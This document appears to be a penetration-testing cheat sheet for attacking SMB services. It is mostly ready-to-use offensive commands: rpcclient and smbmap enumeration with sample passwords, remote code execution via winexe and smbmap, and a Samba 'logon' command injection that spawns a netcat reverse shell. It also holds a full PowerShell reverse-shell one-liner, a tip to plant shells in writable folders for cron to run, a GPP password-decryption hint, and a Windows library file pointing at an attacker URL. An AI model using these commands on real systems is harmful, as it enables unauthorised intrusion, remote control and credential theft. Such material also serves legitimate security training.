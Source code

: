 ```
# rpcclient commands
rpcclient -U "" 10.11.1.111
	srvinfo
	enumdomusers
	getdompwinfo
	querydominfo
	netshareenum
	netshareenumall

# Run cmd over smb from linux
winexe -U username //10.11.1.111 "cmd.exe" --system

#smb reverse shell with "logon" cmd
logon "/=`nc 10.10.14.5 4444 -e /bin/bash`"

# General SMB Tips
	If you find a writable folder, upload reverse shells to it. It might get executed by a cronjob

# smbmap
smbmap.py -H 10.11.1.111 -u administrator -p asdf1234 #Enum
smbmap.py -u username -p 'P@$$w0rd1234!' -d DOMAINNAME -x 'net group "Domain Admins" /domain' -H 10.11.1.111 #RCE
smbmap.py -H 10.11.1.111 -u username -p 'P@$$w0rd1234!' -L # Drive Listing
smbmap.py -u username -p 'P@$$w0rd1234!' -d ABC -H 10.11.1.111 -x 'powershell -command "function ReverseShellClean {if ($c.Connected -eq $true) {$c.Close()}; if ($p.ExitCode -ne $null) {$p.Close()}; exit; };$a=""""192.168.0.X""""; $port=""""4445"""";$c=New-Object system.net.sockets.tcpclient;$c.connect($a,$port) ;$s=$c.GetStream();$nb=New-Object System.Byte[] $c.ReceiveBufferSize  ;$p=New-Object System.Diagnostics.Process  ;$p.StartInfo.FileName=""""cmd.exe""""  ;$p.StartInfo.RedirectStandardInput=1  ;$p.StartInfo.RedirectStandardOutput=1;$p.StartInfo.UseShellExecute=0  ;$p.Start()  ;$is=$p.StandardInput  ;$os=$p.StandardOutput  ;Start-Sleep 1  ;$e=new-object System.Text.AsciiEncoding  ;while($os.Peek() -ne -1){$out += $e.GetString($os.Read())} $s.Write($e.GetBytes($out),0,$out.Length)  ;$out=$null;$done=$false;while (-not $done) {if ($c.Connected -ne $true) {cleanup} $pos=0;$i=1; while (($i -gt 0) -and ($pos -lt $nb.Length)) { $read=$s.Read($nb,$pos,$nb.Length - $pos); $pos+=$read;if ($pos -and ($nb[0..$($pos-1)] -contains 10)) {break}}  if ($pos -gt 0){ $string=$e.GetString($nb,0,$pos); $is.write($string); start-sleep 1; if ($p.ExitCode -ne $null) {ReverseShellClean} else {  $out=$e.GetString($os.Read());while($os.Peek() -ne -1){ $out += $e.GetString($os.Read());if ($out -eq $string) {$out="""" """"}}  $s.Write($e.GetBytes($out),0,$out.length); $out=$null; $string=$null}} else {ReverseShellClean}};"' # Reverse Shell

# Check
\Policies\{REG}\MACHINE\Preferences\Groups\Groups.xml look for user&pass "gpp-decrypt "

# Windows Library Code

<?xml version="1.0" encoding="UTF-8"?>
<libraryDescription xmlns="http://schemas.microsoft.com/windows/2009/library">
<name>@windows.storage.dll,-34582</name>
<version>6</version>
<isLibraryPinned>true</isLibraryPinned>
<iconReference>imageres.dll,-1003</iconReference>
<templateInfo>
<folderType>{7d49d726-3c21-4f05-99aa-fdc2c9474656}</folderType>
</templateInfo>
<searchConnectorDescriptionList>
<searchConnectorDescription>
<isDefaultSaveLocation>true</isDefaultSaveLocation>
<isSupported>false</isSupported>
<simpleLocation>
<url>http://192.168.45.$myIP</url>
</simpleLocation>
</searchConnectorDescription>
</searchConnectorDescriptionList>
</libraryDescription>
```